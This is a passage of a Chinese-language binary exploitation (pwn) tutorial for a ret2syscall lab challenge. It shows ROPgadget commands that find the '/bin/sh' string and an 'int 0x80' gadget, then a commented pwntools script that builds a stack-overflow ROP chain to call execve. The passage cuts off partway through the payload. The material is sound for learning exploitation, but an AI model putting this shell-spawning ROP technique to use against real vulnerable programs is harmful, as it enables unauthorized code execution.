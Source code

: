 ![image-20241216150744839](pwn二进制漏洞/image-20241216150744839.png)	

```
从二进制文件 ./ret2syscall 中查找包含字符串 "/bin/sh" 的内存地址。
保存其中的内存地址0x080be408
ROPgadget --binary ./ret2syscall --string "/bin/sh"
```

![image-20241216150919134](pwn二进制漏洞/image-20241216150919134.png)	

```
查找到0x80的入口函数。
保存其中的内存地址0x08049421。
ROPgadget --binary ./ret2syscall --only "int"|grep "0x80"
```

![image-20241216151036661](pwn二进制漏洞/image-20241216151036661.png)	

```python
于是即可编写pop.py验证这个漏洞。

from pwn import *
# 导入 pwntools 库，用于编写漏洞利用脚本

context(arch="i386", os="linux")
# 设置上下文为 32 位架构（i386）和 Linux 系统

p = process("./ret2syscall")
# 启动目标程序 ret2syscall，返回一个进程对象 `p` 用于交互

offset = 112
# 设置缓冲区到返回地址的偏移量，这里是 112 字节，通过调试工具计算得出

pop_eax = p32(0x080bb196)
# 定义 ROP gadget：`pop eax ; ret` 的地址
# 作用：将栈顶的值弹入 eax，用于设置系统调用号

pop_edx_ecx_ebx = p32(0x0806eb90)
# 定义 ROP gadget：`pop edx ; pop ecx ; pop ebx ; ret` 的地址
# 作用：将栈顶的值依次弹入 edx、ecx 和 ebx，用于设置系统调用参数

bin_sh = p32(0x080be408)
# "/bin/sh" 字符串的地址，用于 execve 系统调用的第一个参数

int_0x80 = p32(0x08049421)
# 系统调用指令 `int 0x80` 的地址，用于触发 Linux 系统调用

payload = (
    b'A' * offset             # 用 112 字节的 'A' 填充缓冲区，覆盖返回地址之前的栈内容
    + pop_eax                 # 压入 ROP gadget：pop eax ; ret
    + p32(0xb)                # 设置 eax = 11（execve 的系统调用号）
    + pop_edx_ecx_ebx         # 压入 ROP gadget：pop edx ; pop ecx ; pop ebx ; ret
    + p32(0)                  # 设置 edx = 0（NULL，环境变量）
```